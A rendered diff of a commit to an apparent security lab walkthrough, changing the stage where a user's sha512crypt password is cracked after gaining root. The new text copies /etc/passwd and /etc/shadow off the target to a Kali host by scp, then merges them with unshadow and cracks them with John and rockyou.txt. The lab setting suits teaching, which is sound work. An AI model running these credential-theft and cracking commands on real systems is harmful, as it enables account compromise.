

Before and after one commit to KOliver94/security-showcase, a Markdown page: docs/walkthrough.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Crack frank's hash on Kali after exfiltrating passwd/shadow

````diff
--- a/docs/walkthrough.md
+++ b/docs/walkthrough.md
@@ -272,17 +272,22 @@ whoami
 
 ## Stage 6 — Crack `frank`'s password (the goal)
 
-As root, combine the password and shadow files and crack frank's `$6$` (sha512crypt) hash:
+Now that you're root you can finally read `/etc/shadow`, where frank's `$6$` (sha512crypt) hash lives. Do the actual cracking on **Kali**, which already ships `unshadow`, John, and the `rockyou.txt` wordlist — no need to install anything on the target.
+
+**On the target (as root)** — copy the two files off the box. Either `scp` them to Kali:
 
 ```bash
-unshadow /etc/passwd /etc/shadow > /tmp/unshadowed.txt
+scp /etc/passwd /etc/shadow vagrant@192.168.56.20:/tmp/
+```
 
-# John:
-john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/unshadowed.txt
-john --show /tmp/unshadowed.txt
+or just `cat /etc/passwd` and `cat /etc/shadow` and paste each into a matching file on Kali.
 
-# or hashcat (sha512crypt = mode 1800):
-hashcat -m 1800 -a 0 frank_hash.txt /usr/share/wordlists/rockyou.txt
+**On Kali** — merge the two files with `unshadow`, then crack:
+
+```bash
+unshadow /tmp/passwd /tmp/shadow > unshadowed.txt
+john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
+john --show unshadowed.txt
 ```
 
 frank's password is in `rockyou.txt`:
````
